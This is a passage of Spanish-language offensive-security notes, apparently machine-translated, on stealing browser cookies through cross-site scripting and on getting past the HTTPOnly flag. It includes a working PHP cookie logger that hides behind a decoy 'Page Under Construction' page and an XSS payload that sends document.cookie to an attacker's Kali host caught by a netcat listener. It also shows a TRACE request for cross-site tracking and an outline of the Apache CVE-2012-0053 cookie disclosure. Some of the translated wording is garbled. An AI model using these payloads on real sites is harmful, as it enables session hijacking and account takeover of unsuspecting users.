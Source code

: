 ```php
<?php
error_reporting(0); #turn off all error reporting
$cookie = $_GET['cc']; #request to log
$file = '_cc_.txt'; #the log file
$handle = fopen($file,"a"); # open log file in append mode
fwrite($handle,$cookie."\n"); # append the cookie
fclose($handle); #append the cookie
echo '<h1>Page Under Construction</h1>'; #trying to hide suspects
>
```

![[Pasted image 20240311152720.png]]

Una vez que obtengamos la cookie deseada, podemos hacer varias operaciones además de la tala. Algunos ejemplos son los siguientes:

* una solicitud a una API que requiere las cookies robadas (implantación)
* notificar al atacante por correo electrónico

La solución simple es utilizar netcat

```bash
netcat -lvvp 80
<script> new Image().src="kali ip"+escape(document.cookie); </script>
```

### Bypassing HTTPOnly Flag

Esta bandera obliga al navegador a manejar la cookie sólo cuando se descarte la solicitud HTTP; por lo tanto; Para los lenguajes de scripting del lado del cliente (IE: JavaSCript), estas cookies son prácticamente invisibles.

### Cross-Site Tracking (XST)

TRACE connection:

```bash
curl <victim.site> -X TRACE -H "Test: test-header"
```

En JavaScript, existe el objeto **XMLHttpRequest** que proporciona una manera fácil de recuperar datos de una URL.

> Esta técnica es muy antigua y consecuentemente navegadores modernos BLOCK el método HTTP TRACE en XMLHttpRequest y en otros lenguajes y bibliotecas de scripting como _JQuery_, _Silverlight_, _Flag/ACtionScript_, etc.

![[Pasted image 20240311152737.png]]

### CVE:2012-0053 aka Apache HTTPOnly Cookie Disclosure

* Otra forma de acceder a las cookies HTTPOnly es explotar los errores del servidor web
* https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-0053
* Este ejemplo está relacionado con el infames Apace HTTP Server 2.2.x through 2.2.21 Es posible crear y luego se esfuerza una ráfaza de galletas grandes que luego genera la página de error de 400. Podemos entonces leer la respuesta que definitivamente contendrá las cookies HTTPOnly.
